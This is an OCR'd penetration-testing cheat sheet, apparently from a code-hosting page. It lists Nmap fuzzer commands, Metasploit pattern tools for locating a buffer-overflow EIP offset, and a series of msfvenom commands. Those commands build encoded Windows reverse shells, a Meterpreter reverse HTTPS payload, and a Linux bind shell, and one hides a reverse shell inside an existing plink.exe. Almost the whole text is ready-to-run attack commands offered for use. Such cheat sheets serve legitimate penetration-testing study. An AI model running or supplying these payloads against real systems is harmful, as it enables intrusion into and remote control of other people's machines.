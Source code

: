 #DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

##NMap Fuzzer List
https://nmap.org/nsedoc/categories/fuzzer.html

##NMap HTTP Form Fuzzer
nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

##Nmap DNS Fuzzer
nmap --script dns-fuzz --script-args timelimit=2h $ip -d


# Pattern Create and Locate

locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438

## Verify exact location of EIP - [*] Exact match at offset 2606
buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90


** MSFVenom Payloads **
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

## Create a PE reverse shell and embed it into an existing executable
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

## Create a PE Reverse HTTPS shell
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

## Linux Bind Shell on PORT 4444 ( connect with nc -v $ip 4444 )
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

